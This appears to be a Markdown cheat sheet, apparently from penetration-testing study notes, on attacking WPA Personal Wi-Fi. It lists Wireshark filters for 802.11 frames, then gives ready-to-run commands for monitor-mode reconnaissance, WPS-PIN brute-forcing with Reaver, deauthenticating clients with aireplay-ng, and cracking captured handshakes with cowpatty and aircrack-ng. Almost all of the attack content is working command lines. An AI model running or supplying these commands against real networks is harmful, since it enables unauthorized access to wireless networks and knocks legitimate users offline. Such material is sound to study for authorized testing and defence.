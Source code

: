 # WPA Personal Overview

| Wireshark Display Filter                                                              | Frame Type                        |
| ------------------------------------------------------------------------------------- | --------------------------------- |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 8)`                                  | Beacon                            |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 4)`                                  | Probe Request                     |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 5)`                                  | Probe Response                    |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 11)`                                 | Authentication                    |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 0)`                                  | Association Request               |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 1)`                                  | Association Response              |
| `eapol`                                                                               | EAPOL (Handshake)                 |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 12) or (wlan.fc.type_subtype == 10)` | Disassociation ∨ Deauthentication |


# Reconnaissance and Bruteforce

| Command                                         | Description                                                                                               |
| ----------------------------------------------- | --------------------------------------------------------------------------------------------------------- |
| `sudo airmon-ng start wlan0`<br>                | Enable monitor mode.                                                                                      |
| `sudo airodump-ng wlan0mon`                     | Scan for available Wi-Fi networks and their associated clients.                                           |
| `sudo airodump-ng wlan0mon -c 1 --wps`          | Scan for WPS-enabled Wi-Fi networks (using airodump-ng).                                                  |
| `sudo wash -j -i wlan0mon`                      | Scan for WPS-enabled Wi-Fi networks (using wash + verbose output).                                        |
| `grep -i "84-1B-5E" /var/lib/ieee-data/oui.txt` | See which vendor is associated with an access point, using the first half of the target AP's MAC address. |
| `sudo airmon-ng stop wlan0mon`                  | Turn off monitor mode.                                                                                    |
| `iw dev wlan0 interface add mon0 type monitor`  | Add a new monitor interface (using iw).                                                                   |
| `sudo ifconfig mon0 up`                         | Activate the new interface.                                                                               |
| `sudo reaver -i mon0 -c 1 -b <target_BSSID>`    | Perform WPS-PIN bruteforce with Reaver.                                                                   |


# Cracking MIC (4-Way Handshake)

| Command                                                      | Description                                                                                           |
| ------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------- |
| `sudo airmon-ng start wlan0`                                 | Enable monitor mode.                                                                                  |
| `sudo airodump-ng wlan0mon -c 1 -w WPA`                      | Scan for available Wi-Fi networks and their associated clients, saving the traffic to a capture file. |
| `sudo aireplay-ng -0 5 -a <AP_MAC> -c <client_MAC> wlan0mon` | Perform a deauthentication attack against a connected client.                                         |
| `cowpatty -c -r WPA-01.cap`                                  | Verify the WPA handshake.                                                                             |
| `cowpatty -r WPA-01.cap -f /opt/wordlist.txt -s <ESSID>`     | Crack the PSK from the captured WPA handshake using cowpatty.                                         |
| `aircrack-ng -w /opt/wordlist.txt -0 WPA-01.cap`             | Crack the PSK from the captured WPA handshake using aircrack-ng.                                      |
